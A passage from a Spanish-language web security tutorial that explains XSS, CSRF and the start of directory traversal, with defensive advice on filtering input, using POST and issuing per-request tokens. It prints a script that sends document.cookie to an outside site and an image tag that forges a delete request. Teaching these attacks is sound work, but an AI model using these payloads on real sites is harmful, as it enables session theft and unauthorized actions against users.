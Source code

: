```javascript
<script>document.location = 'https://otrositio.com?cookies=' + document.cookie</script>
```

Para evitar los ataques XSS, la estrategia más útil, otra vez, es **filtrar todos los datos externos**. El filtrado de datos es sencillo de hacer y te ahorrará mogollón de problemas. En resumen: **nunca** te fíes de ningún dato que provenga de un formulario si no lo has filtrado antes y le has quitado todos los caracteres sospechosos.

### 3.4.4. CSRF o XSRF (cross site request forgery)

Este tipo de ataques **explota la confianza que tiene un sitio web en la identidad de un usuario**. Es decir, se toma a un usuario válido registrado en un sitio (por ejemplo, sitio-confiable.com) y, desde otro sitio (por ejemplo, sitio-maligno.com), se le fuerza a hacer algo chungo en sitio-confiable.com.

Veámoslo con un ejemplo. Supón que eres un usuario administrador en sitio-confiable.com. Para borrar a un usuario de tu web (o cualquier otro recurso), lanzas una URL como https://sitio-confiable.com/usuario/delete/28 (donde 28 es el id del usuario). Este tipo de URLs son muy habituales en las aplicaciones web.

Pues bien, imagina que has abierto una sesión como administrador en sitio-confiable.com y, sin cerrarla, navegas por otra web llamada sitio-maligno.com. Y un atacante supermalvado, conocedor de tu propensión a navegar por sitios chungos sin cerrar la sesión en sitio-confiable.com, ha colocado este código como parte del código fuente de sitio-maligno.com:

```html
<img src='https://sitio-confiable.com/usuario/delete/28'>
```

Cuando tu navegador cargue esa página, lanzará una petición GET a sitio-confiable.com, resultando en la eliminación del usuario 28 sin que tú te enteres de cómo ha podido suceder semejante desgracia.

Esto es solo un ejemplo. Por supuesto, el atacante puede hacer un montón de cosas desagradables en sitio-confiable.com, porque ese sitio está confiando en ti, que eres un usuario legítimo con una sesión abierta.

Puedes pensar: ¿y quién demonios se va a dejar una sesión abierta y se va a poner a navegar por otros sitios sin cerrarla? Respuesta: *todo* el mundo. Si tú no lo has hecho nunca, aunque solo haya sido una vez, probablemente no perteneces a la especie humana.

Algunas técnicas para dificultar el ataque por CSRF:

* **Utilizar POST en lugar de GET** para recibir datos.
* **Generar tokens únicos para cada petición**. Un tóken es una cadena alfanumérica aleatoria generada por el servidor cuando sirve el código HTML de un formulario. El cliente debe enviar de vuelta ese tóken junto con los datos del formulario para que el servidor acepte la petición como válida. Si un atacante intenta efectuar un ataque CSRF, enviará sus peticiones sin el tóken y serán rechazadas.

### 3.4.5. DT (directory transversal)

Este ataque se produce cuando el atacante logra **acceder a ficheros del servidor que están fuera del directorio de la aplicación** y que, teóricamente, no deberían ser accesibles desde esta.

Es fácil comprender cómo puede montarse un ataque así. Imagina un programa PHP que haga un *include()* de este estilo:
